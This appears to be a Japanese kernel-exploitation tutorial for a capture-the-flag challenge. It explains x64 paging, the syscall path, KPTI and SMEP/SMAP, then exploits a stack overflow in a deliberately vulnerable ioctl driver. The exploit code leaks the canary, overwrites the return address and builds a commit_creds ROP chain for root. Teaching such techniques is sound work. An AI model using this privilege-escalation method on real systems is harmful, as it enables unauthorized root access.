




## Challenge

[[Distribution File]](https://r2.p3land.smallkirby.com/smap-21a99c107721eb80b4d9e763d401ceeeb32c8798cf0badd9cda9c7f137205c7b.tar.gz)

[[vmlinux with debug symbols]](https://r2.p3land.smallkirby.com/vmlinux-smap.tar.gz)

```sh
nc sc skb.pw 49405
```

## Address Translation

以下では、前提知識としてx64アーキテクチャの64bit mode(4-level paging)におけるページング機構について軽く触れます。

x64において、アドレスは**Logical Address**・**Linear Address**・**Physical Address**の3つがあります。
Logical Addressはいわゆる仮想アドレスに対応するもので、Linear->Physicalへと変換されていきます。
これらのアドレスの用語はx64固有のもので、他のアーキだと*Effective Address(EA)*と言ったり、
そもそもLinearがなかったりします。

### Logical to Linear

Logical->Linear変換は**GDT/LDT**と呼ばれる構造体が司ります[^1]。



画像のように、アドレスの上位16bitがGDT内の**Segment Descriptor**のインデックスとして使われます。
このdescriptorは、Linear Addressの **Base** / **Limit** / **Access Rights** 等を保持しています。
Logical Addressのオフセットを、descriptorのBaseに加算することでLinear Addressが得られます。
また、`Seg. Selector`は **RPL (Requested Protection Level)** と呼ばれる値も保持しており、
アクセスする際の希望Ring Levelを表します。
Descriptorも同様に **DPL (Descriptor Privilege Level)** と呼ばれる値を保持しており、
これ以下のRing Levelからのアクセスを許可します。
Descriptorの値を使ってLinear Addressに変換する際には、`max(RPL, CPL) <= DPL`である必要があります。

### Linear to Physical

Linear->Physical変換は、**Page Table**と呼ばれる構造体を使って**MMU**が司ります。



Linear Address中の値をもとにして4段階でアドレス解決をしていきます。
上の画像に置いて、アドレス解決に使われる構造を左から **PGD** / **PMD** / **PTE** と呼びます。
なお、これはLinuxにおける呼び名でありIntelはまた別の命名をしているのでご注意を。
Linear Address中の`Dir`によってPGD内のエントリを指定します。
そのエントリがPMDのアドレスを保持していて、Linear Address内の`Table`と組み合わせてPMD内のエントリを取得します。
ということを繰り返して、最終的にPhysical Addressのベースアドレスが取得できるため、
これをLinear Address内の`Offset`と加算して完了です。

### GDTのキャッシング

いちいちGDTを参照するのは嫌なので、x64はSegment Descriptorの値をキャッシュしておくためのレジスタを保持しています。
**CS**(code) / **DS**(data) / **SS**(stack) / **ES**(general) / **FS**(general) / **GS**(general) と呼ばれるレジスタたちです。
GDTから対応するエントリをこれらのレジスタにロードすることで、以降はこのレジスタの値を使ってアドレス解決を行うことができます。


これらのセグメントレジスタにGDTの値をロードするときは、
Segment Selectorのみを指定してロードします。
すると、CPU側で勝手にDescriptorの値を引っ張ってきてレジスタに入れておいてくれます。
このDescriptorからとってきた部分のことを、セグメントレジスタの*Hidden Part*(*Shadow Part*)と呼びます。


### x64におけるセグメント

せっかく説明しましたが、x64においてセグメント機構はあまり使われていません。
というのも、64bitモードに置いてはCS/DS/SS/ESの`Base`値を常に0として扱うようになっています。
`Limit`チェックもされません(一応アドレス解決の結果がCanonicalかどうかくらいは見てくれるらしいです)。
よって、大抵の場合において `Logical Address == Linear Address` になります。

例外はFSとGSです。
FSはglibcにおいて**TLS (Thread Local Storage)** を指すために利用されたりします。
GSはLinux KernelにおいてCPU固有のデータ(**Per-CPU Variable**)を指すために利用されたりします。
なお、x64においてFSとGSは`Base`解決のために利用されます。
そして、FSとGSレジスタは **MSR (Model Specific Register)** というレジスタに物理的にマッピングされています。
それぞれ**IA32_FS_BASE** / **IA32_GS_BASE**というMSRです。
そのためFS/GSを参照しようとすると、これらのMSRを見に行くことになります。
GSはkernellandで重要なため、のちほどまた詳しく見ていきます。

## syscallについて

### entry point ~ do_syscall_64

一昔前は、`int 0x80`命令によってsyscallを呼び出していました。
`int`命令は割り込みを発生させる命令で、[IDTR](https://wiki.osdev.org/Interrupt_Descriptor_Table)によって指される割り込みテーブルに登録されたハンドラに処理が移ります。
`0x80`番がsyscallのエントリポイントということですね。
また、32bitでは[sysenter](https://www.felixcloutier.com/x86/sysenter)命令が使われていました。
しかし、最近の64bitアーキでは`int 0x80`はほとんど使われず、より高速な[syscall](https://www.felixcloutier.com/x86/syscall.html)命令が使われます。

`syscall`は**IA32_LSTAR_MSR**レジスタによって指されるエントリポイントに処理を移します。
`MSR_LSTAR`は`syscall_init()`([/arch/x86/kernel/cpu/common.c]())で初期化され、`entry_SYSCALL_64`を指すことになります:

```c
void syscall_init(void)
{
	wrmsr(MSR_STAR, 0, (__USER32_CS << 16) | __KERNEL_CS);
	wrmsrl(MSR_LSTAR, (unsigned long)entry_SYSCALL_64);

	wrmsrl(MSR_CSTAR, (unsigned long)ignore_sysret);
	wrmsrl_safe(MSR_IA32_SYSENTER_CS, (u64)GDT_ENTRY_INVALID_SEG);
	wrmsrl_safe(MSR_IA32_SYSENTER_ESP, 0ULL);
	wrmsrl_safe(MSR_IA32_SYSENTER_EIP, 0ULL);

	/* Flags to clear on syscall */
	wrmsrl(MSR_SYSCALL_MASK,
	       X86_EFLAGS_TF|X86_EFLAGS_DF|X86_EFLAGS_IF|
	       X86_EFLAGS_IOPL|X86_EFLAGS_AC|X86_EFLAGS_NT);
}
```

`entry_SYSCALL_64`([(/arch/x86/entry/entry_64.S]())の前半部分は以下のように定義されます:

```c
SYM_CODE_START(entry_SYSCALL_64)
	UNWIND_HINT_ENTRY
	ENDBR

	swapgs
	/* tss.sp2 is scratch space. */
	movq	%rsp, PER_CPU_VAR(cpu_tss_rw + TSS_sp2)
	SWITCH_TO_KERNEL_CR3 scratch_reg=%rsp
	movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp

SYM_INNER_LABEL(entry_SYSCALL_64_safe_stack, SYM_L_GLOBAL)
	ANNOTATE_NOENDBR

	/* Construct struct pt_regs on stack */
	pushq	$__USER_DS				/* pt_regs->ss */
	pushq	PER_CPU_VAR(cpu_tss_rw + TSS_sp2)	/* pt_regs->sp */
	pushq	%r11					/* pt_regs->flags */
	pushq	$__USER_CS				/* pt_regs->cs */
	pushq	%rcx					/* pt_regs->ip */
SYM_INNER_LABEL(entry_SYSCALL_64_after_hwframe, SYM_L_GLOBAL)
	pushq	%rax					/* pt_regs->orig_ax */

	PUSH_AND_CLEAR_REGS rax=$-ENOSYS

	/* IRQs are off. */
	movq	%rsp, %rdi
	/* Sign extend the lower 32bit as syscall numbers are treated as int */
	movslq	%eax, %rsi

	/* clobbers %rax, make sure it is after saving the syscall nr */
	IBRS_ENTER
	UNTRAIN_RET

	call	do_syscall_64		/* returns with IRQs disabled */```
```

L2はよく分かりませんが、この時点でstackを持っていないことを表現しているらしいです。

L3の`ENDBR`は新しいCPUに搭載されたIndirect Branch Tracking用の命令です。
詳しくは[この辺の記事](https://smallkirby.hatenablog.com/entry/2020/09/10/230629)を見てみてください。

L5の**swapgs**はとても大切です。
kernelについた直後はスタックがありません。寂しいです。
そのため、まず[swapgs](https://www.felixcloutier.com/x86/swapgs)命令によって **IA32_KERNEL_GS_BASE** からkernel用のGSを取り出してきています。
この命令は現在のGSとMSRに入っている値を交換します。

取り出したGSは、**PER_CPU_VAR**の計算に使われます[(arch/x86/include/asm/percpu.h)]():

```c
#define __percpu_seg		gs
#define PER_CPU_VAR(var)	%__percpu_seg:var
```

確かにGSレジスタを使ってアドレスを計算していることが分かりますね。
みなさんもぜひお手元のGDBと`vmlinux`をつかって`entry_SYSCALL_64`にbpを貼ってみてください。
`swapgs`の直前のレジスタや`MSR_GS_BASE`の値は以下のようになります:

```sh
gef> registers
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00000000004a91de  ->  0x5a77fffff0003d48 ('H='?)
$rdx   : 0x1
$rsp   : 0x00007fff60392318  ->  0x000000000050c168  ->  0x7d83411179c08548
$rbp   : 0x00007fff60392469  ->  0xa800000000005637 ('7V'?)
$rsi   : 0x00007fff60392469  ->  0xa800000000005637 ('7V'?)
$rdi   : 0x0
$rip   : 0xffffffff81800000 <entry_SYSCALL_64>  ->  0x2524894865f8010f
$r8    : 0x0000000000663338  ->  0x0000000000000000 <fixed_percpu_data>
$r9    : 0x0
$r10   : 0x8
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0000000000660320  ->  0x0000000000000000 <fixed_percpu_data>
$r14   : 0x0
$r15   : 0x00007fff60392469  ->  0xa800000000005637 ('7V'?)
$eflags: 0x2 [ident align vx86 resume nested overflow direction interrupt trap sign zero adjust parity carry] [Ring=0]
$cs: 0x10 $ss: 0x18 $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00

gef> msr MSR_GS_BASE
MSR_GS_BASE (0xc0000101): 0x0 (=0b)
```

確かにRSP等はまだuserlandのものを指していることが分かります。
また、`GS_BASE`は0になっています。userlandでは使わないので妥当ですね。

これが、`swapgs`をした後には以下のようになります:

```sh
gef> msr MSR_GS_BASE
MSR_GS_BASE (0xc0000101): 0xffff88800f600000 (=0b1111_1111_1111_1111_1000_1000_1000_0000_0000_1111_0110_0000_0000_0000_0000_0000)
```

`0xffff88800f600000`を指すようになっています。
これが、このCPUの`PER_CPU_VAR`領域となります。

続くL7で、この`PER_CPU_VAR`を使って`RSP`の値を退避させています。
x64では**TSS (Task State Segment)**と呼ばれる領域にタスク情報を格納することになっており、
該当領域は以下のように`cpu_tss_rw`変数として定義されています:



```c
// /include/generated/asm-offsets.h
#define TSS_sp2 20 /* offsetof(struct tss_struct, x86_tss.sp2) */

// /arch/x86/include/asm/processor.h
struct tss_struct {
	struct x86_hw_tss	x86_tss;
	struct x86_io_bitmap	io_bitmap;
} __aligned(PAGE_SIZE);
DECLARE_PER_CPU_PAGE_ALIGNED(struct tss_struct, cpu_tss_rw);
```

L7の`TSS_sp2`は、TSSの中でたまたま使われていない領域のため、せっかくだからuser RSPを保存するのにこの領域を使おうということらしいです。

L8では何か大切そうなことをしています([/arch/x86/entry/calling.h]()):

```h
#define PTI_USER_PGTABLE_AND_PCID_MASK  (PTI_USER_PCID_MASK | PTI_USER_PGTABLE_MASK)

.macro ADJUST_KERNEL_CR3 reg:req
	ALTERNATIVE "", "SET_NOFLUSH_BIT \reg", X86_FEATURE_PCID
	/* Clear PCID and "PAGE_TABLE_ISOLATION bit", point CR3 at kernel pagetables: */
	andq    $(~PTI_USER_PGTABLE_AND_PCID_MASK), \reg
.endm

.macro SWITCH_TO_KERNEL_CR3 scratch_reg:req
	ALTERNATIVE "jmp .Lend_\@", "", X86_FEATURE_PTI
	mov	%cr3, \scratch_reg
	ADJUST_KERNEL_CR3 \scratch_reg
	mov	\scratch_reg, %cr3
.Lend_\@:
.endm
```

どうやら`scratch_reg`で指定したレジスタを仲介として、
**CR3**レジスタの11/12-th bit (0-origin)を下ろしているようです。
CR3レジスタはPGDの物理アドレスを保持します:



このビット演算が何を意味するかは非常に重要なのですが、
今のところはとりあえずkernel空間のページにアクセスできるようになるという認識で大丈夫です。
本ページで必要になったら説明します。

L9では、`PER_CPU_VAR(cpu_current_top_of_stack)`を使って`RSP`を更新しています。
どうやらこの領域にはこのCPU用のstackアドレスがおいてあるらしいです。
これでやっとkernelくんはstackをゲットしました、やったね。

続くL15-L21ではひたすらにユーザレジスタをstackに積みまくっています。
これは、のちほど関数に引数として渡す必要がある`struct pt_regs`([/arch/x86/include/asm/ptrace.h]())を構築しています。
確かにアセンブリ中で積んでいる順番と一致しますね:

```c
struct pt_regs {
	unsigned long r15;
	unsigned long r14;
	unsigned long r13;
	unsigned long r12;
	unsigned long bp;
	unsigned long bx;
	unsigned long r11;
	unsigned long r10;
	unsigned long r9;
	unsigned long r8;
	unsigned long ax;
	unsigned long cx;
	unsigned long dx;
	unsigned long si;
	unsigned long di;
	unsigned long orig_ax;
	unsigned long ip;
	unsigned long cs;
	unsigned long flags;
	unsigned long sp;
	unsigned long ss;
};j
```

あとはL26,28で`RDI`/`RSI`に引数を入れて、`do_syscall_64`([/arch/x86/entry/common.c]())を呼んでいるだけです。
この中身についてはここでは触れないため、興味のある人は見てみてください。

### do_syscall_64 ~ userlandへの帰還

ここからは`do_syscall_64`を終えてuserlandに帰還するまでの部分です。
帰還方法には`sysret`と`iret`があります。
基本的にはそれぞれsyscall / 割り込みから帰るようですが、後者のほうが簡単なため後者を見ていくことにします。


```S
	movq	RCX(%rsp), %rcx
	movq	RIP(%rsp), %r11
	cmpq	%rcx, %r11	/* SYSRET requires RCX == RIP */
	jne	swapgs_restore_regs_and_return_to_usermode
  ...

SYM_CODE_START_LOCAL(common_interrupt_return)
SYM_INNER_LABEL(swapgs_restore_regs_and_return_to_usermode, SYM_L_GLOBAL)
	IBRS_EXIT

	POP_REGS pop_rdi=0

	/*
	 * The stack is now user RDI, orig_ax, RIP, CS, EFLAGS, RSP, SS.
	 * Save old stack pointer and switch to trampoline stack.
	 */
	movq	%rsp, %rdi
	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
	UNWIND_HINT_EMPTY

	/* Copy the IRET frame to the trampoline stack. */
	pushq	6*8(%rdi)	/* SS */
	pushq	5*8(%rdi)	/* RSP */
	pushq	4*8(%rdi)	/* EFLAGS */
	pushq	3*8(%rdi)	/* CS */
	pushq	2*8(%rdi)	/* RIP */

	/* Push user RDI on the trampoline stack. */
	pushq	(%rdi)

	/*
	 * We are on the trampoline stack.  All regs except RDI are live.
	 * We can do future final exit work right here.
	 */
	STACKLEAK_ERASE_NOCLOBBER

	SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi

	/* Restore RDI. */
	popq	%rdi
	swapgs
	jmp	.Lnative_iret
```

L1-4は`sysret`を使えるかどうかのチェックです。
無理な場合には`swapgs_restore_regs_and_return_to_usermode`に飛びます。

L11で`RDI`を除いてPOPしています。
先程stackには`struct pt_regs`を積んでいたので、それを取り出しています。

L18では`RSP`を退避させています。
ここでも`PER_CPU_VAR(cpu_tss_rw + TSS_sp0)`を使うことで、次にkernelに来た時にこの値を使って`RSP`を復元することができます。

L21-26では、`iretq`で必要となるユーザレジスタの値を積んでいます。

L37は、CR3をuserlandのものに戻しています。さっきの逆ですね。

そして最終的にもう一度`swapgs`をしてGSをユーザのもの(0)に戻して、めでたく`iretq`で帰還しています。

## 脆弱性

配布ファイルを見て内容を確認してみてください。
ソースコードは以下のようになっています:

```c
typedef struct smap_data_t {
  char *buf;
  size_t len;
} smap_data;

long smap_ioctl(struct file *filp, unsigned int cmd, unsigned long arg) {
  long ret = 0;
  char buf[SMAP_BUFSZ] = {0};
  smap_data data;

  if (copy_from_user(&data, (smap_data *)arg, sizeof(smap_data))) {
    return -EFAULT;
  }

  switch (cmd) {
    case SMAP_IOCTL_WRITE:
      if (_copy_from_user(buf, data.buf, data.len)) {
        ret = -EFAULT;
      }
      break;
    case SMAP_IOCTL_READ:
      if (_copy_to_user(data.buf, buf, data.len)) {
        ret = -EFAULT;
      }
      break;
    default:
      ret = -EINVAL;
  }

  return ret;
}
```

`ioctl`では第3引数を介してユーザデータを渡すことができ、今回は`struct smap_data_t`型として定義されています。
コマンドは2つ用意されており、`SMAP_IOCTL_WRITE`ではstack上の`buf`に対して書き込みが、
`SMAP_IOCTL_READ`では読み込みができます。

脆弱性は明らかで、`_copy_from/to_user()`に渡すサイズをユーザが任意に指定することができ、
そのサイズが`SMAP_BUFSZ`を超える場合にはstack overflowが発生します。

### canary leakとRIP hijack...?

kernelとはいってもstackの構造は変わりません。
よって、RAを書き換えてuserlandに用意した関数を実行することを目指しましょう。

ちょっとその前に、`run.sh`の以下の箇所を修正しておいてください:

```sh
  -cpu kvm64,+smep,+smap \
=>
  -cpu kvm64,-smep,-smap \
```

まずは`SMAP_IOCTL_READ`でcanaryをleakします。
`/proc/kallsyms`から`smap_ioctl()`のアドレスを調べ、そこにbpを貼ってみましょう。
stackの用意がされたあとに`tele`コマンドで見てみると以下のようになっています:

```sh
0xffffc90000443d80|+0x0000|000: 0x0000000000000000 <fixed_percpu_data>  <-  $rsp
0xffffc90000443d88|+0x0008|001: 0x0000000001100dca
0xffffc90000443d90|+0x0010|002: 0x0000000000000000 <fixed_percpu_data>
0xffffc90000443d98|+0x0018|003: 0xffffffff81edfca0 <boot_cpu_data>  ->  0x000000000106000f  <-  $rdi
0xffffc90000443da0|+0x0020|004: 0x0000000000000255
...
0xffffc90000443e70|+0x00f0|030: 0xffff8880031c6770  ->  0x8000000001a2a067
0xffffc90000443e78|+0x00f8|031: 0xffffea00000c71a8  ->  0x0000000000000000 <fixed_percpu_data>
0xffffc90000443e80|+0x0100|032: 0x0000000000000000 <fixed_percpu_data>
0xffffc90000443e88|+0x0108|033: 0x2aed9ca7a13c1f00
0xffffc90000443e90|+0x0110|034: 0x2aed9ca7a13c1f00
0xffffc90000443e98|+0x0118|035: 0x0000000000000003 <fixed_percpu_data+0x3>
0xffffc90000443ea0|+0x0120|036: 0xffffc90000443f30  ->  0xffffc90000443f48  ->  0x0000000000000000 <fixed_percpu_data>  <-  $rbp
0xffffc90000443ea8|+0x0128|037: 0xffffffff81161406 <__x64_sys_ioctl+0x3e6>  ->  0x413e74fffffdfd3d
```

`$rbp + 0x8`がRA、`$rbp - 0x10`がcanaryです
(`$rbp - 0x18`にもcanaryが入っているのは、前のstack frameのcanaryの名残かと思われます)。

また、`smap_ioctl()`を`disass`してみると以下のような箇所があるため、`buf`は`$rbp-0x110`に確保されることが分かります:

```S
    0xffffffffc000002f 31c0               <NO_SYMBOL>   xor    eax, eax
    0xffffffffc0000031 48c785f0feffff..   <NO_SYMBOL>   mov    QWORD PTR [rbp - 0x110], 0x0
 -> 0xffffffffc000003c f348ab             <NO_SYMBOL>   rep    stos QWORD PTR es:[rdi], rax
```

よって、以下のようにして`canary`をleakすることができます:

```c
char *buf = malloc(BUFSZ);
memset(buf, 0, BUFSZ);
smap_read(fd, buf, 0x150);
const ulong canary = *(ulong *)(buf + 0x100);
const ulong rbp = *(ulong *)(buf + 0x108);
printf("[+] canary: 0x%lx\n", canary);
```

あとはRAを書き換えるだけです。
RAを書き換える際にはcanaryも一緒に書き換える必要があるため、leakした値で上書きするようにします。
[Warmup](/kernel/warmup)の章でも使ったような`get_root()`関数に飛ばしてみましょう:

```c
memset(buf, 'A', BUFSZ);
*(ulong *)(buf + 0x100) = canary;
*(ulong *)(buf + 0x100 + 0x10) = rbp;
*(ulong *)(buf + 0x100 + 0x18) = (ulong)get_root;
smap_write(fd, buf, 0x128);
```

これを実行すると以下のようになります:

```txt
/ # ./exploit
[ ] START of life...
[+] get_root: 0x40294a
[+] canary: 0x6c600ff28ff49400
BUG: unable to handle page fault for address: 000000000040294a
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0011) - permissions violation
PGD 80000000032df067 P4D 80000000032df067 PUD 32de067 PMD 32d8067 PTE 1fef025
Oops: 0011 [#1] SMP PTI
CPU: 0 PID: 137 Comm: exploit Tainted: G           O      5.15.0 #2
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
RIP: 0010:0x40294a
Code: Unable to access opcode bytes at RIP 0x402920.
RSP: 0018:ffffc9000045beb0 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 4141414141414141 RCX: 0000000000000000
RDX: 0000000000000000 RSI: 00000000004ed8a8 RDI: ffffc9000045beb8
RBP: 0000000000000003 R08: 00000000004028ff R09: 4141414141414141
R10: 4141414141414141 R11: 4141414141414141 R12: ffff8880031e8700
R13: 00007ffeb05fb890 R14: ffff8880031e8700 R15: 0000000000001000
```

`000000000040294a`にのページフォルトを処理できないと言っています。
これは`get_root()`のアドレスです。

これは **KPTI** と呼ばれるセキュリティ機構によるものです。

### KPTI (Kernel Page Table Isolation)

[KPTI](https://www.kernel.org/doc/html/next/x86/pti.html)は、[Meltdown](https://meltdownattack.com/)と呼ばれる脆弱性に対する対策として導入されたものです。

KPTIが導入される前は、userlandとkernelのページテーブルは同じものを使っていました。
具体的には、kernelとuserlandで同じPGDを共有して使っていました。
もちろんページ権限としてはuserからkernelにアクセスすることはできなかったのですが、
CPUの投機的実行とキャッシュを利用してkernelのメモリを読み出すことができてしまうという脆弱性がありました。
そこで、そもそもuserlandとkernelのページテーブルを分けてしまいuserlandのPGDには
kernelのマッピングをほとんどしないようになりました。これがKPTIです。

KPTIは`CONFIG_PAGE_TABLE_ISOLATION`を有効にすることで有効化できます。
また、bootオプションとして`nopti`をつけると無効化できます。
対応するコードは以下のとおりです:

```c
// /arch/x86/include/asm/pgalloc.h
#define PGD_ALLOCATION_ORDER 1
#else
#define PGD_ALLOCATION_ORDER 0
#endif

// /arch/x86/mm/pgtable.c
static inline pgd_t *_pgd_alloc(void)
{
	return (pgd_t *)__get_free_pages(GFP_PGTABLE_USER,
					 PGD_ALLOCATION_ORDER);
}
```

KPTIが有効になっていると、PGDを確保する際には2ページ分取得していることが分かります。
この関数は隣接するページ(Order-1 Page)を取得するため、最初のページがkernel用・続くページがuser用のPGDになります。
そのため、kernel PGDの`PAGE_SHITF (12)`bit目を立てるだけでuser PGDを取得することができます:

```c
static inline pgd_t *kernel_to_user_pgdp(pgd_t *pgdp)
{
	return ptr_set_bit(pgdp, PTI_PGTABLE_SWITCH_BIT);
}
```

ここで、先程syscall entryで見た謎の`SWITCH_TO_KERNEL_CR3 scratch_reg=%rsp`の意味が分かるようになります。
このマクロはCR3レジスタの11/12-th bitを下ろしていました。
これは、user PGDからkernel PGDへの切り替えを意味していたんですね。

ちなみに、11-th bitは**PCID** bitと呼ばれています。
本来ならばCR3を切り替えた(PGDを切り替えた)場合には、TLBを全てフラッシュしてやる必要があります。
そうしないと、PGDが切り替わってアドレス変換のルールが変わったのに
古いルールで変換した結果をTLBから取ってくることになっちゃいますからね。
しかし、user<->kernel CR3の変換のたびにTLBフラッシュしてると遅くなってしまうので、
PCID機能を利用してキャッシュにタグ付けができるようにしています。
これによって、CR3を切り替えたときに全てを即座にフラッシュする必要がなくなるという仕組みらしいです。
詳しくは[このへん](https://www.kernel.org/doc/Documentation/x86/pti.txt)を読んでみてください。

ところで、今回のシナリオではkernel PGDを保持した状態でuserlandの関数を呼んだはずです。
KPTIでは、userからkernelのマップは見えなくなりますが、kernelからuserのマップは読むことができます。
ではどうしてエラーになったのでしょうか。
実は、 **KPTIではuserからkernelマップを見えなくする以外に、kernelからはuserのマップがNXに見えるようにしています**
(多分おまけ的な感じです):

```c
pgd_t __pti_set_user_pgtbl(pgd_t *pgdp, pgd_t pgd)
{
	...
	if ((pgd.pgd & (_PAGE_USER|_PAGE_PRESENT)) == (_PAGE_USER|_PAGE_PRESENT) &&
	    (__supported_pte_mask & _PAGE_NX))
		pgd.pgd |= _PAGE_NX;}
	...
}
```

実際、`vmmap`か何かで見てみると`R--`としてマップされていることがわかると思います:

```txt
Virtual address start-end          Physical address start-end         Total size   Page size   Count  Flags
0000000000400000-0000000000401000  0000000001ff1000-0000000001ff2000  0x1000       0x1000      1      [R-- USER ACCESSED]
0000000000401000-0000000000402000  0000000001ff0000-0000000001ff1000  0x1000       0x1000      1      [R-- USER ACCESSED]
0000000000402000-0000000000403000  0000000001fef000-0000000001ff0000  0x1000       0x1000      1      [R-- USER ACCESSED]
0000000000403000-0000000000404000  0000000001fee000-0000000001fef000  0x1000       0x1000      1      [R-- USER ACCESSED]
0000000000404000-0000000000405000  0000000001fed000-0000000001fee000  0x1000       0x1000      1      [R-- USER ACCESSED]
```

というわけで、KPTIが有効な状態では単純にuserlandの関数にジャンプするということはできません。

### SMEP / SMAP

さて、ここで一つ実験として`run.sh`の`-append`オプションに`nopti`を追加してKPTIを無効化してみましょう。
それと同時に、先程編集した`-smep,-smap`の部分を`+smep,+smap`に戻します。
この状態で先程のexploitを実行してみてください:

```txt
/ # ./exploit
[ ] START of life...
[+] get_root: 0x40294a
[+] canary: 0x5151c42bf165bc00
unable to execute userspace code (SMEP?) (uid: 0)
BUG: unable to handle page fault for address: 000000000040294a
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0011) - permissions violation
PGD 32ad067 P4D 32ad067 PUD 32ae067 PMD 3278067 PTE 1fef025
Oops: 0011 [#1] SMP NOPTI
CPU: 0 PID: 152 Comm: exploit Tainted: G           O      5.15.0 #2
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
RIP: 0010:0x40294a
Code: Unable to access opcode bytes at RIP 0x402920.
RSP: 0018:ffffc90000463eb0 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 4141414141414141 RCX: 0000000000000000
RDX: 0000000000000000 RSI: 00000000004ed8a8 RDI: ffffc90000463eb8
RBP: 0000000000000003 R08: 00000000004028ff R09: 4141414141414141
R10: 4141414141414141 R11: 4141414141414141 R12: ffff888003192f00
R13: 00007ffe59b19250 R14: ffff888003192f00 R15: 0000000000001000
```

KPTIを無効化したのに落ちてしまいました。
これは、**SMEP (Supervisor Mode Execution Prevention)** / **SMAP (Supervisor Mode Access Prevention)** というCPUのセキュリティ機構によるものです。
SMEP/SMAPが有効だと、ring-0の状態でuserのページにあるコードの実行およびデータへのアクセスがそれぞれできなくなります。
これは**CR4**レジスタの20/21-th bitを立てることで有効化されます。
なお、KPTIはLinux(ソフト)のセキュリティ機構・SMEP/SMAPはIntel(ハード)のセキュリティ機構となります。

それでは、`_copy_to_user()`関数等はどうやってユーザ領域にアクセスしているのでしょうか。
`copy_to_user`は設定にもよりますが、以下のようなアセンブリコードを呼び出します:

```S
; /arch/x86/lib/copy_user_64.S
SYM_FUNC_START(copy_user_generic_unrolled)
	ASM_STAC
	cmpl $8,%edx
  ...

// /arch/x86/include/asm/smap.h
#define __ASM_STAC	".byte 0x0f,0x01,0xcb"
static __always_inline void stac(void)
{
	/* Note: a barrier is implicit in alternative() */
	alternative("", __ASM_STAC, X86_FEATURE_SMAP);
}
```

`ASM_STAC`によってCR4ののSMAP bitを設定してやっています。
この関数中は一時的にSMAPを無効化することでアクセスできるようにしているようですね。

というわけで、SMAP/SMEPが有効化されている場合にはkernelからuserにアクセスすることはできなくなります。
ただし、`copy_to_user`等がしているように、`CR4`レジスタをいじってあげれば、これらの制約は解除することが出来るようです。

## exploit方針

さて、先程`run.sh`に追加した`nopti`オプションを消してあげましょう。
これで晴れてKPTI/SMAP/SMEP有効な状態になります。
KPTIが有効なので、userlandの関数にはジャンプできません。
よって、ROPでkernelにいる状態で権限昇格をしてしまいましょう。
ROPについて詳しくは [userland ROP](/user/rop) の章を見てください。

基本方針は[Warmup](/kernel/warmup)の章と同じです。
`commit_creds(prepare_kernel_cred(0))`をします:

```c
  ulong *chn = (ulong *)(buf + 0x100 + 0x18);
  ulong *chn_orig = chn;
  *chn++ = 0xffffffff810caadd;  // pop rdi
  *chn++ = 0;
  *chn++ = (ulong)prepare_kernel_cred;
  *chn++ = 0xffffffff812a85e4;  // pop rcx
  *chn++ = 0;
  *chn++ = 0xffffffff8165bf2b;  // mov rdi, rax; rep movsq
  *chn++ = (ulong)commit_creds;
```

これで権限昇格自体は完成です。
しかし、このあとできれいにuserlandに戻る必要があります。

